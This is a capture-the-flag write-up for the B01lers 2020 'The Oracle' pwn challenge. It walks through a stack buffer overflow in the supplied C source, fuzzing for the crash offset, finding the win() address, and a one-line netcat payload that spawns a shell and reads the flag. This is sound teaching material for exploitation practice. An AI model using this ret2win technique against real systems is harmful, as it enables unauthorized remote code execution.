

## B01lers_CTF(The Oracle)

_**Oct 3-4, 2020**_

<br>


<h3 id="Challenge Description">Challenge Description</h3>



> Would you still have broken it if I hadn't said anything?
> nc chal.ctf.b01lers.com 1015
> [theoracle](../../../assets/resource/theoracle) Size: 16.54 KBMD5: ef25f23d8a2218004732f71bfbfa1267
> [theoracle.c](../../../assets/resource/theoracle.c) Size: 0.32 KBMD5: 888b851225717833a890745f158e973f


<br>

<h3 id="Solution">Solution</h3>

We start by reading the provided source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}
```

we can see that there is an interesting function called `win()`, if we managed to change the program flow and call `win()` fuction, we will be able to popup a shell on the remote server.

we start by checking for security implemented on the binary
```
m3dsec@local:~/03_The_Oracle_$ checksec theoracle
[*] '/home/m3dsec/b01lers.com/pwn/03_The_Oracle_/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX is enabled, but thats no problem in our case, we don't need to inject our own shell code.

Searching for the buffer size
```
m3dsec@local:~/b01lers.com/pwn/03_The_Oracle_$ for i in {1..300};do echo $i; python -c "print('A' * $i)"|./theoracle;done
1
Know Thyself.
...
23
Know Thyself.
Segmentation fault
...
^C
```
i got a crash after 23 A's.


Then i had to grab the `win()` address
```
m3dsec@local:~/03_The_Oracle$ readelf -a theoracle|grep win
The decoding of unwind sections for machine type Advanced Micro Devices X86-64 is not currently supported.
    60: 0000000000401196    54 FUNC    GLOBAL DEFAULT   15 win
```


With all those information in mind, we can start smaching the stack.

```
m3dsec@local:~/03_The_Oracle$ (python -c "print '\x96\x11\x40\x00\x00\x00\x00\x00' * 5";cat)|nc chal.ctf.b01lers.com 1015
Know Thyself.
id
uid=1000(theoracle) gid=1000(theoracle) groups=1000(theoracle)
ls
Makefile
flag.txt
theoracle
theoracle.c
wrapper.sh
cat flag.txt
flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```

and, we got the flag !!

<br>
<br>

best regards, [m3dsec](https://github.com/m3dsec)

--------------

[back to B01lers_CTF()](../../ctf/b01lers.md)

[back to main()](../../../index.md)

